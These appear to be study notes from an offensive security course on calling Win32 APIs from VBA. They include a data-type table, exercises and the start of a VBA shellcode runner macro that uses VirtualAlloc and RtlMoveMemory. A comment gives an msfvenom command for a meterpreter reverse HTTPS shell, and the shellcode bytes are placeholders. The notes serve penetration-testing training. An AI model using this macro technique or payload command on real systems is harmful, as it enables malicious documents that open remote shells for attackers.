 

***Windows Data Types & VB Data Types***

| Windows Data Types | VB Data Types |
|---|---|
| LPDWORD| Long|
| LPSTR | String | 
| LPVOID | LongPtr |
| SIZE_T|  Long |
| DWORD| Long   |



**3.4.1.1. Exercises**
```
1. Replicate the call to GetUserName and return the answer.
2. Import the Win32 MessageBoxA110 API and call it using VBA.
```


## VBA Shellcode Runner
```
VirtualAlloc    - Allocate executable Memory
RtlMoveMemory   - copy shellcode to the newly allocated memory region
CreateThread    - execute shellcode 
```
**Virtual Alloc**
```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpADdress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long


Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    
    'msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication'
    buf = Array(232, 130, 0, 0, 0)
       
       
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
End Function
```
**RtlMoveMemory**
```vb
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
End Function
```
